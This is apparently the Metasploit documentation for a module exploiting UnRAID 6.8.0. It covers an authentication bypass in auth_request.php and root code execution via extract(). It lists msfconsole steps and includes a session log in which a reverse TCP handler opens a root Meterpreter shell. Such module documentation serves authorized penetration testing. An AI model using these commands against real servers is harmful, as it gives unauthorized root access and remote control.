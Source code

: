 ## Vulnerable Application

This module has been tested on UnRAID 6.8.0 without any configuration except setting a root password. Only UnRAID 6.8.0 is affected.

### Description

This module exploits an authentication bypass vulnerability caused by an insecure whitelisting mechanism in `auth_request.php` and then
performs remote code execution as root by abusing the *extract* function used in the `template.php` file.

### Testing Environment

Download links are provided for reference only and are not maintianed by the project. Utilize at your own risk!
Setup [Unraid 6.8.0](https://s3.amazonaws.com/dnld.lime-technology.com/stable/unRAIDServer-6.8.0-x86_64.zip)
according to the [UnRAID Getting Started](https://wiki.unraid.net/UnRAID_6/Getting_Started) guide.

## Verification Steps

  1. Setup UnRAID 6.8.0
  2. Start `msfconsole`
  3. `use exploit/linux/http/unraid_auth_bypass_exec`
  4. `set RHOST [UNRAID]`
  5. `check`
  6. `run`
  7. You should get a new *root* session

## Options

  **TARGETURI** : The URI of the Unraid application

## Scenarios

```
msf5 > use exploit/linux/http/unraid_auth_bypass_exec.rb
msf5 exploit(linux/http/unraid_auth_bypass_exec) > set RHOSTS 10.10.0.173
RHOSTS => 10.10.0.173
msf5 exploit(linux/http/unraid_auth_bypass_exec) > check
[*] 10.10.0.173:80 - The target appears to be vulnerable.
msf5 exploit(linux/http/unraid_auth_bypass_exec) > run

[*] Started reverse TCP handler on 10.10.0.161:4444 
[*] Sending stage (38288 bytes) to 10.10.0.173
[*] Meterpreter session 1 opened (10.10.0.161:4444 -> 10.10.0.173:46894) at 2020-03-20 15:26:40 +0100
[+] Request timed out, OK if running a non-forking/blocking payload...

meterpreter > getuid
Server username: root (0)
```
